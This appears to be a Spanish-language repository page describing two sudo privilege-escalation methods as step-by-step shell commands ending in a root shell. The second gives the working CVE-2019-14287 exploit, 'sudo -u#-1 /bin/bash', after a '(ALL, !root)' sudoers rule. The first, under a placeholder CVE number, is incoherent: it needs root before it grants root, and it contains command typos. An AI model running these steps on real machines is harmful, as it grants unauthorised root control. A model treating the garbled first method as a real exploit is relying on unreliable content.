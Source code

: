 # sudo

CVE-2017-XXXX hackingyseguridad
# 1.- Para editar el fichero sudiers sin problemas 
$chmod 777 /etc/sudoers    
# 2.- Añadidmos en la linea sudo de /etc/group a antonio
sudo vim /etc/group
sudo:x:27:antonio
forzamos la escritura en group al salir con :wq!
# 3.- Restablecemos los privilegios del fichero sudoers con 
$chmod 755 /etc/sudoers
# 4.- Explotamos 
$sudo antonio
$sudo su
#whoami
# 5.- ya somos root!


CVE-2019-14287 VULNERABILIDAD SUDO VERSIONES < 1.8.28 
# 1.- Editamos el fichero /etc/sudoers con $sudo visudo 
# 2.- Añadimos la linea con el usuario antonio 
#User privilege specification
root ALL=(ALL:ALL) ALL
%admin ALL=(ALL) ALL
antonio ALL=(ALL) /usr/bin/id
# 4.- Ejecutamos: 
$su antonio
$sudo id
$sudo whoani
$sudo -u antonio id
# 5.- Volvemos a editar el fichero /etc/sudoers con $sudo visudo
# 6.- Modificamos la linea
antonio ALL=(ALL, !root) ALL
# 7.- Explotamos la vulnerabilidad con sudo -u#-1
$sudo -u#-1 /bin/bash
#whoami
# 8.- ya somos root!
